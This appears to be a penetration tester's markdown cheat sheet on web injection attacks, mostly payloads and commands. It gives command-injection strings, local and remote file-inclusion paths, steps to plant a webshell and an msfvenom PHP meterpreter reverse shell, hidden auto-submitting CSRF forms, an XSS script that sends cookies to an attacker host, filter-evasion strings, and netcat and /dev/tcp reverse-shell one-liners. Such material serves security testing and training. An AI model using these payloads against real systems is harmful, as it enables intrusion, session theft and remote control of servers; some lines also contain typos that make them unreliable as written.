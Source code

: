 ```yaml
---
title: Injection
category: Web Application
order: 4
---
```


> **Command Injection**

Prefixs before attack payload (command seperator): 
{% highlight bash %}
&, &&, ||,  <, >, ;, $()
{% endhighlight %}

Test Visable:
{% highlight bash %}
; ls /ect/passwd or /ect/hosts
{% endhighlight %}

Test Blind:
{% highlight bash %}
; ping y.o.ur.ip 
on your attack system "sudo tcpdump -n host [victimIP] and icmp"
; nslookup (you need a public facing system to see nslookup)
{% endhighlight %}


> **File Inclusion**

Test Strings:
{% highlight bash %}
file%3a%2f%2f%2fetc%2fpasswd
../../../winnt/system32.cmd.exe+/c+dir (not frequent)
/ect/passwd
../../../../../../../../../../../../../../ect/passwd
{% endhighlight %}

Use ZAP to Fuzz the URL:
1. Right click on request that looks injectable -> fuzz using
[JHADDIX_LFI](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/lfi/JHADDIX_LFI.txt)

What to go after:
* Old IIS: HTTP://vulnsite/scripts/../../../winnt/system32/CMD.exe+/C+dir (may need to encode the slashes)
* http://vulnsite/index.php?templ=../include/siteconfig.inc (or just templ=red)
* /global.asax
* \docume~1\fprefect\mydocu~1
* \windows\system32\cmd.exe
* /etc/passwd
* [Windows pwnwiki](http://pwnwiki.io/#!presence/windows/blind.md)
* [Linux pwnwiki](http://pwnwiki.io/#!presence/linux/blind.md)

Debian w/ Apache:
* /var/www/html
* /home/username/public_html

CGI scripts: 
* /use/lib/cgi-bin

Auto-Extension Bypass:
* NULL "%00"

>**Shell from RFI**

1. VI a webshell (https://binaryexile.github.io/6%20-%20Web%20Application/Vulnerabilities/)
2. python -m SimpleHTTPServer 8080
3. set up netcat listener (if needed based on webshell)
3. Navigate to shell (http://www.victim.com/index.php?page=http://127.0.0.1:4321/shellcommand.txt)

Meterpreter:
1) Create Payload: msfvenom LPORT=1234 LHOST=192.168.1.8 -p php/meterpreter_reverse_tcp -f raw > ~/met_rev_tcp_1234.txt
2) Wrap it: add <?php ?> to the payload
4)  Set up handler: 
use exploit/multi/handler
set payload php/meterpreter_reverse/tcp
set lhost 192.168.1.8
set lport 1234
exploit
3)  python -m SimpleHTTPServer 8080

> **SQL Injection: Test Strings**

{% highlight bash %}
' ` " ; /* --
{% endhighlight %}

> **SQL Injection: Database Identification**

Oracle | ORA-01756: quoted string not properly terminated
MS SQL Server | Incorrect syntax near 'something'
PostgreSQL | 5-digit Hex Error Code

> **CSRF**

GET:
{% highlight html %}
<img src="http://<ip_of_site>/form.php?<parameter>=<value>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

> **XSS**

Get Cookie:
{% highlight html %}
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+docment.cookie;</script>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}


> **XSS Test Strings**

{% highlight html %}
'';!--"<XSS>=&{()}
{% endhighlight %}

{% highlight html %}
<script>alert(document.cookie);</script>

<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>

<script src=http://www.example.com/malicious-code.js></script>

%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e

\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e

>"><script>alert("XSS")</script>&

"><STYLE>@import"javascript:alert('XSS')";</STYLE>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert('XSS')>

<IMG SRC=JaVaScRiPt:alert('XSS')> 

<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>

<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">

{% endhighlight %}



> **Local File Include**

{% highlight bash %}
#Automated Tool
fimap -u 'http://website/?p=file.html'

#Test for Local File Include
http://website/?p=file%3a%2f%2f%2fetc%2fpasswd

#Grab data
http://website/?p=php://filter/convert.base64-encode/resource=/etc/php/7.0/apache2/php.ini
http://utilities.snrt.io/?p=php://filter/convert.base64-encode/resource=index.php

#Rebuild Base64 file (e.g.,executable)
base64 -d extractedBase64File > executable2
curl -s "http://localhost/ex1.php?page=php://filter/convert.base64-encode/resource=index" | base64 -d

{% endhighlight %}

> **Command Injection**
{% highlight bash %}
#Commix Automated Tool
commix --level=3 --url="http://website/?arg=INJECT_HERE&arg2=argument" 
python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=INJECT_HERE&submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"


#Test Strings
test`pwd`
test$(pwd)
test; pwd
test | pwd
test && pwd
{% endhighlight %}

> **Blind Command Injection**

{% highlight bash %}
#Attacker Machine
tcpdump -n host <webserver IP> and ICMP
nc -l [port]
#Victim
test; ping -c 4 <yourAttackerIP>; echo hello 
test; /bin/nc [YourAttackerIP] [port] -e /bin/bash; echo hello
#Alternative to NC for non-debian based distrobutions
/bin/bash -i > /dev/tcp/[AttackerIP]/[attackerport] 0<&1 2>&1 

#Sleep method
http://ci.example.org/blind.php?address=127.0.0.1 && sleep 10
{% endhighlight %}

> **Web Shells**

Kali: 

PHP | <code> /usr/share/webshells/php/ </code>
PERL | <code> /usr/share/webshells/perl/ </code>
Cold Fusion | <code> /usr/share/webshells/cfm/ </code>
ASP | <code> /usr/share/webshells/asp/ </code>
ASPX | <code> /usr/share/webshells/aspx/ </code>
JSP | <code> /usr/share/webshells/jsp/jsp-reverse.jsp </code>

Online:

* [PHP and Perl](http://pentestmonkey.net/category/tools/web-shells)
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

> **Useful Resources**

* [MongoDB](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [Command Injection](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [Fuzzing List](http://securitysynapse.blogspot.com/2015/07/intro-to-hacking-mongo-db.html)
* [XSS, SQL, LDAP, XPATH, XML Injection Test Strings](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors)
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [XSS Examples](http://www.xssed.com/)
* [SQL Injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* [Informix, MSSQL, Oracle, MySQL, Postgres, DB2, Ingres SQL Injection Cheat Sheet](http://pentestmonkey.net/category/cheat-sheet)
* [Access Injection Cheat Sheet](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)
[Commix](http://www.kitploit.com/2015/04/commix-automated-all-in-one-os-command.html)
[LFI Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/)
[CGI-Bin](https://www.hellboundhackers.org/articles/read-article.php?article_id=7)

> **Useful Tools**
* [SQLMap](http://sqlmap.org)

